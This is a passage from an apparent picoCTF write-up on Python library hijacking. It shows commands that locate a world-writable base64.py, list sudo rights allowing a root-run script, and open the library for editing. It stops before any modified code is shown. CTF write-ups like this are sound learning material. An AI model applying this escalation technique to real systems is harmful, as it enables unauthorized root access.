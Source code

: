 It just `ping`ing `picoctf.org`, and base64 encode the host. Nothing weird.

According to this challenge's title, it's called "hijacking", which let me think this is about "***Python library hijacking***".

Now, ***what if we hijack the `base64` library?*** :D

> Note: You can read this [Medium](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8) post for more information.

**Let's find where does the `base64` lives:**
```shell
picoctf@challenge:~$ locate base64.py
-bash: locate: command not found
```

**Hmm... Nevermind, we can still find it in `/usr/lib/python<version>/`:**
```shell
picoctf@challenge:~$ ls -lah /usr/lib/python3.8/
[...]
-rwxrwxrwx 1 root root  20K Nov 14 12:59 base64.py
[...]
```

As you can see, the `base64.py` library is at `/usr/lib/python3.8/`!

**However, look at the file permission closely:**
```shell
-rwxrwxrwx
```

In the last three permissions, we see `rwx`, which means it's world-readable, ***writeable***, and executable!!

That being said, we can hijack it by **modifiying that library**!!!

**Then, let's check our sudo permission:**
```shell
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

We can execute `/usr/bin/python3 /home/picoctf/.server.py` as root without our user's password!

**Now, let's modify the `base64.py` library.**

Since the `.server.py` script is using function `b64encode()`, we can modify that function:

```shell
picoctf@challenge:~$ vi /usr/lib/python3.8/base64.py
```

**Original:**
```py
def b64encode(s, altchars=None):
    """Encode the bytes-like object s using Base64 and return a bytes object.

    Optional altchars should be a byte string of length 2 which specifies an
    alternative alphabet for the '+' and '/' characters.  This allows an
    application to e.g. generate url or filesystem safe Base64 strings.
    """
    encoded = binascii.b2a_base64(s, newline=False)
    if altchars is not None:
        assert len(altchars) == 2, repr(altchars)
        return encoded.translate(bytes.maketrans(b'+/', altchars))
    return encoded
```